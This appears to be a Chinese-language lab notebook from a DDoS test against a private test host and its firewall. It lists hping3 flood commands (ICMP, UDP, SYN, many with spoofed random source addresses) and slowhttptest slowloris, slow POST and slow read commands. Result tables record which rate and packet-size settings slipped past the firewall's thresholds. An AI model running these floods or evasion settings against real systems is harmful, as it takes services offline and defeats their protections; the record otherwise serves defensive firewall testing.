






# 2026.04.03 DDos攻击测试记录
```ZSH
# 流量检测手段：
sudo apt update && sudo apt install nload
nload eth0
ip -s -s link show eth0
watch -n 1 -d "ip -s link show eth0"
```
## 一、ICMP DDos攻击
`16:20`~`16:22`

```ZSH
# 【低等级】不伪造源，约发 3000 pps。 16:20
sudo hping3 --icmp -c 100000 -d 64 -i u400 172.31.132.2

# 【中等级】伪造源IP绕过源封锁，约发 6600 pps。 16:21
sudo hping3 --icmp -c 100000 -d 64 -i u150 --rand-source 172.31.132.2

# 【强等级】伪造源IP，极限泛洪。 16：22
sudo timeout 8s hping3 --icmp -d 64 --flood --rand-source 172.31.132.2
```

## 二、UDP DDos攻击
`16:23`~`16:25`

```ZSH
# 【低等级】不伪造源，约发 3000 pps。 16:23
sudo hping3 --udp -p 8080 -c 100000 -d 64 -i u333 172.31.132.2

# 【中等级】伪造源，约发50000pps。 16:24
sudo hping3 --udp -p 8080 -c 100000 -d 64 -i u20 --rand-source 172.31.132.2

# 【强等级】伪造源，极限泛洪。 16:25
# 如果此条仍未触发报警，说明单台攻击机性能达不到10万pps，需开启多个终端同时运行此命令。
sudo timeout 8s hping3 --udp -p 8080 -d 64 --flood --rand-source 172.31.132.2
```


## 三、TCP Syn DDos攻击
`16:26`~`16:28`

```ZSH
# 【低等级】伪造源。约发 6600 pps。 16:26
sudo hping3 -S -p 8080 -c 100000 -d 0 -i u150 --rand-source 172.31.132.2

# 【中等级】伪造源。约发 15000 pps。 16:27
sudo hping3 -S -p 8080 -c 100000 -d 0 -i u66 --rand-source 172.31.132.2

# 【强等级】伪造源，极限泛洪。 16:28
sudo timeout 8s hping3 -S -p 8080 -d 0 --flood --rand-source 172.31.132.2
```

## 四、思路调试
第一组：除了ICMP采用随机源ip，其余全部低于源ip封锁阈值
```ZSH
sudo hping3 --udp -c 100000 -d 1400 -i u550 -p 8080 172.31.132.2 # 1818 packet/s
sudo hping3 -S -c 100000 -d 1400 -i u160 --rand-source -p 8080 172.31.132.2 # 6250 packet/s
sudo hping3 --icmp -c 100000 -d 1400 -i u550 172.31.132.2 # 1818 packet/s
```

第二组：降低包大小为800
```ZSH
sudo hping3 --udp -c 100000 -d 800 -i u550 -p 8080 172.31.132.2 # 1818 packet/s
sudo hping3 -S -c 100000 -d 800 -i u160 --rand-source -p 8080 172.31.132.2 # 6250 packet/s
sudo hping3 --icmp -c 100000 -d 800 -i u550 172.31.132.2 # 1818 packet/s
```

第三组：增加udp和icmp采用rand-source，并减少包大小
```ZSH
sudo hping3 --udp -c 10000 -d 256 -i u200 --rand-source -p 8080 172.31.132.2 # 5000 packet/s
sudo hping3 -S -c 10000 -d 128 -i u80 --rand-source -p 8080 172.31.132.2 # 12500 packet/s
sudo hping3 --icmp -c 10000 -d 64 -i u200 --rand-source 172.31.132.2 # 5000 packet/s
```

第四组：采用自己的ip攻击
```ZSH
sudo hping3 --udp -c 10000 -d 256 -i u200 -p 8080 172.31.132.2
sudo hping3 -S -c 10000 -d 128 -i u80 -p 8080 172.31.132.2
sudo hping3 --icmp -c 10000 -d 64 -i u200 172.31.132.2
```

# 4.10思路
**目标**：
1. 触发源IP封锁
2. 绕过源IP封锁，触发目的IP丢包

<div style="display: flex; justify-content: space-between;">



</div>
```ZSH
# -d参数调整思路：
# SYN组：-d 0主力, -d 120畸形攻击
# UDP组：-d 64(攻击cpu), -d 512, -d 1400(攻击带宽)
# ICMP组：-d 32(伪装Win), -d 56(伪装Linux), -d 1000(大包测试)

# 单ip攻击
sudo hping3 -S -c 1000000 -d 128 -i u80 -p 8080 172.31.132.2 # 11:22 12500 packet/s
sudo hping3 --udp -c 1000000 -d 256 -i u100 -p 8080 172.31.132.2 # 11:38 10000 packet/s
sudo hping3 --icmp -c 1000000 -d 64 -i u200 172.31.132.2 # 11:44 5000 packet/s

# 随机源ip攻击
sudo hping3 -S -c 1000000 -d 128 -i u80 --rand-source -p 8080 172.31.132.2 # 11:50
sudo hping3 --udp -c 1000000 -d 256 -i u100 --rand-source -p 8080 172.31.132.2 # 11:56
sudo hping3 --icmp -c 1000000 -d 64 -i u200 --rand-source 172.31.132.2 # 12:02

# UDP组攻击一：三组-d，速度统一，u100 = 
sudo hping3 --udp -c 1000000 -d 64 -i u100 --rand-source -p 8080 172.31.132.2
sudo hping3 --udp -c 1000000 -d 512 -i u100 --rand-source -p 8080 172.31.132.2
sudo hping3 --udp -c 1000000 -d 1000 -i u100 --rand-source -p 8080 172.31.132.2

# UDP组攻击二：极限速度
sudo hping3 --udp --flood -d 64 --rand-source -p 8080 172.31.132.2
sudo hping3 --udp --flood -d 512 --rand-source -p 8080 172.31.132.2
sudo hping3 --udp --flood -d 1000 --rand-source -p 8080 172.31.132.2

# UDP组攻击三：单IP攻击
sudo hping3 --udp --flood -d 64 -p 8080 172.31.132.2
sudo hping3 --udp --flood -d 512 -p 8080 172.31.132.2 #15:12左右
sudo hping3 --udp --flood -d 1000 --rand-source -p 8080 172.31.132.2

```

|攻击模式|对ping影响（正常时延5ms）|对web影响|攻击结果推测|防火墙行为推测|
|-------|---------|--------|-------|------------|
|SYN Flood（单IP）|略卡（刚开始平均时延250ms，接着到达一个临界点时延8900ms，往复循环）（停止攻击即恢复连通）|中断|Web中断，Ping周期性高延时。<br />海量SYN报文引发网络拥塞或设备处理瓶颈，导致正常Ping包被迫排队。由于“停止攻击即恢复连通”，证实网络层未发生绝对的IP级封锁|触发源IP阈值(2000)。<br />判定为恶意攻击，但未执行300s硬封锁，而是启动了**动态限速/实时丢包过滤**。其检测周期以秒为单位：超标即强行丢包（时延飙升），回落即放行（时延恢复），形成往复循环|
|UDP Flood（单IP）|正常|中断|Web中断，但Ping连通性正常。<br />基础网络通道未被切断，但靶机Web服务（8080端口）的应用层处理资源被海量UDP报文耗尽，无法处理正常的TCP请求。|触发源IP阈值(2000)。<br />防火墙启动防御，但采取了**“业务分离/精准清洗”**策略。仅针对发往8080端口的UDP超额流量进行丢弃，未采取全局封锁，主动放行了ICMP协议。|
|ICMP Flood（单IP）|断断续续（平均时延2900ms）（停止攻击即恢复连通）|中断|Web中断，Ping严重丢包且高延时。<br />合法的Ping探测包与洪泛攻击包同属ICMP协议，在网络层遭遇了无差别丢弃（同类相残现象）。|触发源IP(2000)和目的IP(4000)双阈值。<br />判定为恶意攻击。防火墙在网络层执行粗暴的实时限速过滤。由于无法区分正常Ping与恶意泛洪，对该源的所有ICMP流量进行了统一压制。|
|SYN Flood（随机源IP）|先正常，接着到达一个临界点时延3000~12000ms（停止攻击即恢复连通）|中断|前期短暂正常，随后Web中断、Ping严重拥塞。<br />靶机的整体入站带宽或连接数被瞬间打满，所有到达靶机所在网段的合法入站流量（含Ping）均受严重波及排队。|成功绕过源IP封锁，触发目的IP丢包阈值(10000)。<br />由于速率达12500 pps，防火墙判定目的地址受击。启动**目的IP全局限速保护**，无差别丢弃超额入站报文。|
|UDP Flood（随机源IP）|正常|中断|Ping完全正常，Web彻底瘫痪（**一次成功的DDoS**）。<br />攻击流量毫无阻碍地穿透网络层。靶机系统资源（网卡队列/CPU中断）因处理巨量垃圾UDP报文而彻底枯竭，业务宕机。|未触发任何防御拦截。<br />成功绕过源IP限制，且总速率(10000 pps)远低于**防火墙设置的UDP丢包阈值(100000)**。防火墙判定此流量“合法”，任由所有报文穿透。|
|ICMP Flood（随机源IP）|断断续续(平均时延2200ms)（停止攻击即恢复连通）|中断|Web中断，Ping断断续续。<br />攻击流量在到达靶机前被防火墙硬性截断了一部分。合法的Ping包在拥挤且受限的ICMP通道中被随机挤掉。|绕过源IP封锁，触发ICMP目的IP丢包阈值(4000)。<br />速率(5000 pps)超标。防火墙执行**基于目的IP的协议级限速**，将流向靶机的ICMP总速率强制压制在4000内，溢出的报文被全部丢弃。|

获得结果如下：




# 4.13DDos
## 一、DDos（桥接+防火墙关闭）（成功）
当前防火墙DDos防护信息
<div style="display: flex; justify-content: space-between;">



</div>

```ZSH
# -d参数调整思路：
# SYN组：-d 0主力, -d 120畸形攻击
# UDP组：-d 64(攻击cpu), -d 512, -d 1400(攻击带宽)
# ICMP组：-d 32(伪装Win), -d 56(伪装Linux), -d 1000(大包测试)
```

|攻击类型|开始|结束|命令|
|-------|---------|--------|------------|
|防火墙关闭，桥接模式，SYN Flood✅| 10:28 |10:32| hping3 -S --flood -d 0 -p 8080 172.31.132.2 |
|防火墙关闭，桥接模式，SYN Flood✅| 10:34 |10:37| hping3 -S --flood -d 64 -p 8080 172.31.132.2             |
|防火墙关闭，桥接模式，SYN Flood✅| 10:40 |10:43| hping3 -S --flood -d 120 -p 8080 172.31.132.2 |
|防火墙关闭，桥接模式，UDP Flood✅| 10:45 |10:48| hping3 --udp --flood -d 0 -p 8080 172.31.132.2 |
|防火墙关闭，桥接模式，UDP Flood✅| 10：50 |10：53| hping3 --udp --flood -d 64 -p 8080 172.31.132.2 |
|防火墙关闭，桥接模式，UDP Flood✅| 10:55 |10:58| hping3 --udp --flood -d 512 -p 8080 172.31.132.2 |
|防火墙关闭，桥接模式，UDP Flood✅| 11:00 |11:03| hping3 --udp --flood -d 1400 -p 8080 172.31.132.2 |
|防火墙关闭，桥接模式，ICMP Flood✅| 11:05 |11:08| hping3 --icmp --flood -d 32 172.31.132.2 |
|防火墙关闭，桥接模式，ICMP Flood✅| 11:10 |11:13| hping3 --icmp --flood -d 56 172.31.132.2 |
|防火墙关闭，桥接模式，ICMP Flood✅| 11:15 |11:18| hping3 --icmp --flood -d 1000 172.31.132.2 |
|防火墙开启，NAT模式，单ip ICMP✅| 12:06 |12:08| hping3 --icmp --flood -d 1000 172.31.132.2 |
|防火墙开启，NAT模式，随机源ICMP❌| 12:10 |12:12| hping3 --icmp --flood --rand-source -d 1000 172.31.132.2 |
|防火墙开启，桥接模式，单ip ICMP✅| 12:15 |12:16| hping3 --icmp --flood -d 1000 172.31.132.2 |
|防火墙开启，桥接模式，随机源ICMP✅| 12:19 |12:20| hping3 --icmp --flood --rand-source -d 1000 172.31.132.2 |
|防火墙关闭，NAT模式，单ip ICMP❌| 12:23 |12:24| hping3 --icmp --flood -d 1000 172.31.132.2 |
|防火墙关闭，NAT模式，随机源ICMP❌| 12:27 |12:28| hping3 --icmp --flood --rand-source -d 1000 172.31.132.2 |
|防火墙关闭，桥接模式，单ip ICMP✅| 12:32 |12:33| hping3 --icmp --flood -d 1000 172.31.132.2 |
|防火墙关闭，桥接模式，随机源ICMP✅| 12:35 |12:36| hping3 --icmp --flood --rand-source -d 1000 172.31.132.2 |


|攻击类型|开始（1min结束）|命令|
|-------|---------|------------|
|防火墙关闭，桥接模式，SYN Flood，6线程||sudo hping3 -S --flood --rand-source -d 0 -p 8080 172.31.132.2|
|防火墙关闭，桥接模式，UDP Flood，6线程||sudo hping3 --udp --flood --rand-source -d 0 -p 8080 172.31.132.2|
|防火墙关闭，桥接模式，UDP Flood，6线程||sudo hping3 --icmp --flood --rand-source -d 56 172.31.132.2|
|防火墙关闭，桥接模式，ICMP Flood（超大ICMP），6线程||sudo hping3 --icmp --flood --rand-source -d 1000 172.31.132.2|

## 二、慢dos（桥接+防火墙关闭）（失败）
```ZSH
# 三种慢dos：slowloris模式（耗尽连接池）、slow post模式（耗尽写缓冲区）、slow read模式（耗尽读缓冲区）
slowhttptest -c 1000 -H -g -o slowloris_stats -i 10 -r 200 -t GET -u http://172.31.132.2:8080/
slowhttptest -c 1000 -B -g -o slow_post_stats -i 110 -r 200 -s 8192 -t POST -u http://172.31.132.2:8080/
slowhttptest -c 1000 -X -r 200 -w 512 -y 1024 -n 5 -z 32 -u http://172.31.132.2:8080/
```
  - `-H`开启slowloris模式（发送不完整的Header）
  - `-c 1000`建立1000个连接
  - `-i 10`发送后续数据的间隔时间（秒）
  - `-r 200`每秒建立200个连接
  - `-B`开启slow body模式
  - `-s 8192`声明content-length为8192字节
  - `-X`开启slow read模式
  - `-w 512 -y 1024`限制接收窗口大小

| 攻击类型                 | 开始（1min结束） | 命令                                                         |
| ------------------------ | ---------------- | ------------------------------------------------------------ |
| 慢dos（连接强度：高频）❌ | 16:11            | slowhttptest -c 1000 -H -g -o stats_fast -i 10 -r 500 -t GET -u http://172.31.132.2:8080/ |
| 慢dos（连接强度：低频）❌ | 16:13            | slowhttptest -c 1000 -H -g -o stats_slow_rate -i 10 -r 10 -t GET -u http://172.31.132.2:8080/ |
| 慢dos（发送间隔：长）❌   | 16:15            | slowhttptest -c 1000 -H -g -o stats_long_interval -i 30 -r 200 -t GET -u http://172.31.132.2:8080/ |
| 慢dos（发送间隔：短）❌   | 16:17            | slowhttptest -c 1000 -H -g -o stats_short_interval -i 3 -r 200 -t GET -u http://172.31.132.2:8080/ |
| 慢dos（慢速POST攻击）❌   | 16:19            | slowhttptest -c 1000 -B -g -o stats_slow_post -i 20 -r 200 -s 8192 -t POST -u http://172.31.132.2:8080/ |

# 4.14慢速Ddos

| 慢ddos攻击类型                                       | 时间段       | 命令                                                         |
| ---------------------------------------------------- | ------------ | ------------------------------------------------------------ |
| 低并发❌                                              | 9:26~9:28    | slowhttptest -c 500 -H -i 10 -r 200 -t GET -u http://172.31.132.2:8080/ |
| 中并发❌                                              | 9:30~9:33    | slowhttptest -c 1000 -H -i 10 -r 200 -t GET -u http://172.31.132.2:8080/ |
| 高并发（测试吞吐极限）✅（但被L4传输层检测为syn攻击） | 9:35~9:39    | slowhttptest -c 5000 -H -i 10 -r 200 -t GET -u http://172.31.132.2:8080/ |
| 低连接速率❌                                          | 9:45~9:48    | slowhttptest -c 1000 -H -i 10 -r 10 -u http://172.31.132.2:8080/ |
| 高连接速率❌                                          | 9:51~9:54    | slowhttptest -c 1000 -H -i 10 -r 1000 -u http://172.31.132.2:8080/ |
| 超高连接速率（强制触发防御）❌                        | 10:00~10:03  | slowhttptest -c 1000 -H -i 10 -r 2000 -u http://172.31.132.2:8080/ |
| 高频发送数据速率❌                                    | 10:05~10：08 | slowhttptest -c 1000 -H -i 5 -r 200 -t GET -u http://172.31.132.2:8080/ |
| 极限型发送数据速率❌                                  | 10:10~10:13  | slowhttptest -c 1000 -H -i 60 -r 200 -t GET -u http://172.31.132.2:8080/ |


| 慢ddos攻击类型              | 时间段      | 命令                                                         |
| --------------------------- | ----------- | ------------------------------------------------------------ |
| slowloris攻击（稳健）       | 13:52~13:56 | slowhttptest -c 2000 -H -i 15 -r 50 -t GET -u http://172.31.132.2:8080/ |
| slowloris攻击（短发送间隔） | 14:02~14:06 | slowhttptest -c 2000 -H -i 5 -r 50 -t GET -u http://172.31.132.2:8080/ |
| slowloris攻击（高压）       | 14:08~14:13 | slowhttptest -c 4000 -H -i 30 -r 80 -t GET -u http://172.31.132.2:8080/ |
| slow post攻击（标准）       | 14:14~14:17 | slowhttptest -c 1500 -B -i 10 -r 40 -s 4096 -t POST -u http://172.31.132.2:8080/ |
| slow post攻击（极慢）       | 14:20~14:22 | slowhttptest -c 2500 -B -i 20 -r 60 -x 5 -s 8192 -t POST -u http://172.31.132.2:8080/ |
| slow read攻击（窗口限制）   | 14:23~14:28 | slowhttptest -c 1000 -X -r 30 -w 1 -y 2 -n 5 -u http://172.31.132.2:8080/ |
| slow read攻击（吞吐抑制）   | 14:30~14:35 | slowhttptest -c 2000 -X -r 50 -w 5 -z 10 -n 10 -u http://172.31.132.2:8080/ |